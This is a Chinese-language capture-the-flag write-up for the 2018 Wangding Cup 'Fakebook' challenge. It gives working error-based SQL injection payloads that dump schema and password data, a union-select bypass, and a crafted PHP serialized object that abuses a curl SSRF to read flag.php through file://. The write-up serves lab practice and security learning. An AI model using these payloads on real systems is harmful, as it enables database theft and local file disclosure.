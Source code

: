 # \[网鼎杯 2018]Fakebook

## \[网鼎杯 2018]Fakebook

## 考点

* 报错注入
* PHP反序列化
* SSRF

## wp

在join.php输入内容，然后访问，发现URL为 `http://c8792f56-7863-4f64-918a-e39388492049.node3.buuoj.cn/view.php?no=1`

加个单引号就会报错&#x20;

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

这里只有一个单引号，说明很大概率是数字型注入，输入`?no=1 and 1`返回正常页面，说明是数字型注入

这里就可以考虑报错注入，发现它过滤了0x，报错注入语句如下\
`?no=1 and extractvalue(1,concat('~',(select @@version),'~'))`

返回\
`XPATH syntax error: '~10.2.26-MariaDB-log~'`

`extractvalue(1,concat('~',(select schema_name from information_schema.schemata limit 0,1),'~'))`可以获取当前数据库，为fakebook

`extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='fakebook' limit 0,1),'~'))`获取表，为 users

`extractvalue(1,concat('~',(select column_name from information_schema.columns where table_name='users' limit 0,1),'~'))`获取字段，为 no,username,passwd,data

`extractvalue(1,concat('~',(select group_concat(data) from users where no='1'),'~'))` 获取no为1中的data数据

`extractvalue(1,concat('~',(substr((select passwd from users where no='1'),0,32)),'~'))` 截取数据，最后再进行拼接即可

```
username : \11111111
passwd : 长度为128的加密字符串
data : 
O:8:"UserInfo":3:{s:4:"name";s:9:"\11111111";s:3:"age";i:1;s:4:"blog";s:13:"www.baidu.com";}
```

发现是序列化后的结果，进行联合注入，发现报错内容为不能进行反序列化，并且给了绝对路径/var/www/html/view.php，页面在username处显示2，根据上面的报错注入，可以发现其查询顺序是 select no,username,passwd,data 也就是会对data进行反序列化

```
?no=0/**/union/**/select/**/1,2,3,4
```



经过扫描，存在flag.php和robots.txt，在robots.txt文件中发现备份文件，user.php.bak，下载然后审计

发现如下代码，而php的curl存在ssrf，可以利用file协议读取文件

```
    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
```

构造的序列化代码如下

```
class UserInfo
{
    public $name = "test";
    public $age = 12;
    public $blog = "file:///var/www/html/flag.php";

}
$x = new UserInfo();
echo serialize($x);
```

结果为\
`O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

接下来是将数据进行注入，回到刚刚的注入语句，不难想到，其查询顺序是 select no,username,passwd,data 而blog的序列化就是存入的data

然后构造联合查询，

```
no=0/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
